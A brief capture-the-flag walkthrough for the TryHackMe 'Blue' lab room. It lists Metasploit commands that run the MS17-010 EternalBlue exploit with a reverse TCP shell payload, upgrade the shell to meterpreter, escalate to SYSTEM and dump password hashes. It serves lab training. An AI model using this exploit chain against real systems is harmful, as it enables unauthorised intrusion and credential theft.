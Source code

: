 [TryHackMe Blue room](https://tryhackme.com/r/room/blue) | [YouTube Walkthrough](https://www.youtube.com/watch?v=32W6Y8fVFzg)


## setup

1. [Install nmap](https://github.com/TurboLabIt/cybersec/blob/main/notes/000-nmap.md)
2. [Install metasploit](https://github.com/TurboLabIt/cybersec/blob/main/script/metasploit/install.sh)


## recon

[nmap scan, nmap vuln](https://github.com/TurboLabIt/cybersec/blob/main/notes/000-nmap.md)


## exploit info

`msfupdate && msfconsole`

```shell
search ms17-010
info exploit/windows/smb/ms17_010_eternalblue
```


## exploit

```shell
use exploit/windows/smb/ms17_010_eternalblue
show options
set LHOST <my-ip>
set RHOSTS <target-ip>
set payload windows/x64/shell/reverse_tcp
exploit
```


## shell upgrade

```shell
CTRL+Z

use post/multi/manage/shell_to_meterpreter
sessions -l
set SESSION 1
exploit

sessions -l
sessions -i 2

sysinfo
getsystem
hashdump
```
